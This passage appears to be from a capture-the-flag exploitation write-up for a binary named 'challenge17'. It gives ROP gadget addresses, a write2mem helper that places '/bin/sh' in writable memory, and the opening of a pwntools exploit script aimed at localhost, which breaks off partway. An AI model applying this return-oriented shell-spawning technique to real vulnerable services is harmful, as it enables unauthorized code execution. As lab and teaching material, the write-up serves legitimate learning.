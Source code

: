 Lets take a memory location with some zero bytes, e.g. `0x602100`.

## write2mem exploit part

All this combined results to:
```
# writeable data addr
sh_addr = 0x602100

# 0x0000000000400c91: pop rax; ret;
pop_rax = 0x0000000000400c91

# 0x00000000004009a0: pop rbp; ret;
pop_rbp = 0x00000000004009a0

# 0x0000000000400c8e: mov dword ptr [rbp - 8], eax; pop rax; ret;
mov_ptr_rbp_eax = 0x0000000000400c8e

def write2mem(data, location):
        chain = ""

        chain += p64( pop_rax )
        chain += p64( data )

        chain += p64( pop_rbp )
        chain += p64( location + 8)

        chain += p64( mov_ptr_rbp_eax)
        chain += p64( 0xdeadbeef1 )     # dead pop rax of gadget

        return chain


payload = "A" * offset

# write "/bin/sh" to sh_addr
# the write2mem gadget uses "eax", 4 bytes,
# so we have to write the string as 2 x 4 bytes
payload += write2mem(binsh1, sh_addr)
payload += write2mem(binsh2, sh_addr+4)
```


## Full exploit

```
#!/usr/bin/python

import struct
from pwn import *

e = ELF("./challenge17")
tube = connect("localhost", 5002)

# offset to SIP
offset = 152

# writeable data addr
sh_addr = 0x602100


# gadgets

# 0x0000000000400c91: pop rax; ret;
```
